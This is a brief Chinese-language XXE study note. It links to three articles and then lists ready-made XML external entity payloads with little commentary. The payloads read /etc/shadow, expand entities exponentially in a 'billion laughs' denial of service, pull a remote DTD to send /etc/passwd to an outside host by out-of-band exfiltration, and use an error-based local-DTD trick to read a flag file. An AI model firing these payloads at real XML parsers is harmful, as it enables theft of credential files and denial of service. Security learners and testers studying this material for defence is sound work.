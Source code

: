 # XXE漏洞的学习：

1. [XXE漏洞的学习与利用总结](https://www.cnblogs.com/r00tuser/p/7255939.html)
2. [XXE漏洞利用技巧：从XML到远程代码执行](https://www.freebuf.com/articles/web/177979.html)
3. [XXE: XML eXternal Entity Injection vulnerabilities](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)

基础Payload：

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://tester.example.com/xxe_file">
%pe;
%param1;
]>
<foo>&external;</foo>




The contents of xxe_file should be:
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://tester.example.com/log_xxe?data=%payload;'>">
```

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]>
```
